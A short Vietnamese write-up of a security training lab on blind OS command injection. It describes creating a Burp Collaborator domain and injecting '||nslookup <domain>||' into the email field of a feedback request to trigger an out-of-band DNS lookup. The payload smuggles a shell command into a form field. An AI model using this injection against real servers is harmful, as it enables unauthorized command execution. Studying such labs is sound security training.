





# Lab 04: Blind OS Command Injection with Out-of-Band Interaction

## Mục tiêu
Xác nhận blind command injection bằng cách buộc server gửi truy vấn DNS ra Burp Collaborator.

## Đề bài

<br><br>

## Bước 1: Tạo địa chỉ Collaborator
Trong Burp Collaborator, tạo payload domain:

```txt
0rsf0ys9hfaiz0nmf29g6rkrlir9fz3o.oastify.com
```

## Bước 2: Bắt request feedback
Mở form `Submit feedback`, submit và chặn request `POST /feedback/submit`.


<br><br>

## Bước 3: Chèn payload OOB
Inject vào trường `email`:

```txt
ahihi@hihi.com||nslookup 0rsf0ys9hfaiz0nmf29g6rkrlir9fz3o.oastify.com||
```

Gửi request đã sửa:


<br><br>

## Bước 4: Kiểm tra tương tác DNS
Quay lại tab Collaborator và `Poll now`. Nếu thấy bản ghi DNS hit vào payload domain, nghĩa là lệnh đã được thực thi trên server.


<br><br>


<br><br>

## Kết quả
Đã giải quyết lab bằng cách chèn `nslookup` vào trường `email` và xác nhận DNS interaction trong Burp Collaborator.
